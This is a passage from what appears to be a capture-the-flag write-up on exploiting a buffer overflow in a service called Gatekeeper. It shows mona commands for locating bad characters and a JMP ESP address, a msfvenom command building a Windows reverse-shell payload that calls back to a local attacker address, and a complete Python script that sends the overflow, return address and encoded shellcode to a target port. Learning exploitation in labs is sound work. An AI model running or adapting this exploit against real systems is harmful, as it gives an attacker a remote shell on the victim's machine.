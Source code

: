 
- ``!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 014C19F8``

![0xskar](/assets/gatekeeper08.png)

- Now we can find a jump point with our identified badchars
- ``!mona jmp -r esp -cpb "\x00\x0a"``

![0xskar](/assets/gatekeeper09.png)

- 080414C3 Jump Point
- Now that we have this jump point we can update our code and generate our shellcode
- Convert to little endian \xc3\x14\x04\x08
- generate shellcode with updated badchars 
- ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.23 LPORT=7777 -b "\x00\x0a" -f c`` 
- and inset into exploit

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"\xc3\x14\x04\x08" + b"\x90" * 32
shellcode = (b"\xba\x7a\xbb\x8f\x48\xdd\xc7\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x53\x12\x03\x53\x12\x83\x91\x47\x6d\xbd\x99\x50\xf0"
b"\x3e\x61\xa1\x95\xb7\x84\x90\x95\xac\xcd\x83\x25\xa6\x83\x2f"
b"\xcd\xea\x37\xbb\xa3\x22\x38\x0c\x09\x15\x77\x8d\x22\x65\x16"
b"\x0d\x39\xba\xf8\x2c\xf2\xcf\xf9\x69\xef\x22\xab\x22\x7b\x90"
b"\x5b\x46\x31\x29\xd0\x14\xd7\x29\x05\xec\xd6\x18\x98\x66\x81"
b"\xba\x1b\xaa\xb9\xf2\x03\xaf\x84\x4d\xb8\x1b\x72\x4c\x68\x52"
b"\x7b\xe3\x55\x5a\x8e\xfd\x92\x5d\x71\x88\xea\x9d\x0c\x8b\x29"
b"\xdf\xca\x1e\xa9\x47\x98\xb9\x15\x79\x4d\x5f\xde\x75\x3a\x2b"
b"\xb8\x99\xbd\xf8\xb3\xa6\x36\xff\x13\x2f\x0c\x24\xb7\x6b\xd6"
b"\x45\xee\xd1\xb9\x7a\xf0\xb9\x66\xdf\x7b\x57\x72\x52\x26\x30"
b"\xb7\x5f\xd8\xc0\xdf\xe8\xab\xf2\x40\x43\x23\xbf\x09\x4d\xb4"
b"\xc0\x23\x29\x2a\x3f\xcc\x4a\x63\x84\x98\x1a\x1b\x2d\xa1\xf0"
b"\xdb\xd2\x74\x56\x8b\x7c\x27\x17\x7b\x3d\x97\xff\x91\xb2\xc8"
b"\xe0\x9a\x18\x61\x8a\x61\xcb\x4e\xe3\x69\x1c\x27\xf6\x69\x3c"
b"\xd6\x7f\x8f\x2a\x08\xd6\x18\xc3\xb1\x73\xd2\x72\x3d\xae\x9f"
b"\xb5\xb5\x5d\x60\x7b\x3e\x2b\x72\xec\xce\x66\x28\xbb\xd1\x5c"
b"\x44\x27\x43\x3b\x94\x2e\x78\x94\xc3\x67\x4e\xed\x81\x95\xe9"
b"\x47\xb7\x67\x6f\xaf\x73\xbc\x4c\x2e\x7a\x31\xe8\x14\x6c\x8f"
b"\xf1\x10\xd8\x5f\xa4\xce\xb6\x19\x1e\xa1\x60\xf0\xcd\x6b\xe4"
b"\x85\x3d\xac\x72\x8a\x6b\x5a\x9a\x3b\xc2\x1b\xa5\xf4\x82\xab"
b"\xde\xe8\x32\x53\x35\xa9\x43\x1e\x17\x98\xcb\xc7\xc2\x98\x91"
b"\xf7\x39\xde\xaf\x7b\xcb\x9f\x4b\x63\xbe\x9a\x10\x23\x53\xd7"
b"\x09\xc6\x53\x44\x29\xc3")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```
